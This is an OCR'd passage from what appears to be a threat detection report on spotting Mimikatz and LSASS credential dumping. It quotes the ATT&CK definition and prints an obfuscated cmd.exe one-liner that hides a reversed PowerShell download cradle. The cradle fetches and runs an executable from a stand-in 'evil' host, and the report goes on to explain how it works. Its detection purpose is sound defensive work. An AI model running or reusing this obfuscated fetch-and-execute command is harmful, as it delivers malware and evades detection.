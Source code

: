 Discovering rogue Mimikatz processes can be tricky because, since its inception, 

defenders have only had to worry about detecting compiled binaries. Nowadays, 

49

l T1003\.001: LSASS Memory

 
T 1 0 0 3 . 0 0 1 : 
L S A S S M E M O R Y

“Adversaries may attempt to access 

credential material stored in the 

process memory of the Local Security 

Authority Subsystem Service (LSASS). 

After a user logs on, the system 

generates and stores a variety of 

credential materials in LSASS process 

memory. These credential materials 

can be harvested by an administrative 

user or SYSTEM and used to conduct 

Lateral Movement using Use Alternate 

Authentication Material.”

2021 Threat Detection Report

Mimikatz has been incorporated into post\-exploitation frameworks that have 

their own evasion tactics.

cmd /V/C”set N1\= }}{hctac};kaerb;iB$ metI\-

ekovnI;)iB$ ,dq$(eliFdaolnwoD.cAB${yrt{)tlm$ ni 

dq$(hcaerof;’exe.’\+Kjm$\+’\\’\+cilbup:vne$\=iB$;’963’ 

\= Kjm$;)’@’(tilpS.’detcefni\=l?php.suoici/lam/

niamod.live//:ptth’\=tlm$;tneilCbeW.teN tcejbo\-

wen\=cAB$ llehsrewop\&\&for /L %R in (265;\-1;0\)do 

set ZR\=!ZR!!N1:\~%R,1!\&\&if %R\=\=0 call %ZR:\*ZR!\=%

Looking at this command carefully, we can see it sets a variable named N1 to 

a string containing a PowerShell command that is reversed. There’s a For loop 

that reverses this string and executes it. The PowerShell command creates a 

download cradle to download a file and invokes it via a call to Invoke\-Item.

While these obfuscated commands may evade simple, signature\-based 
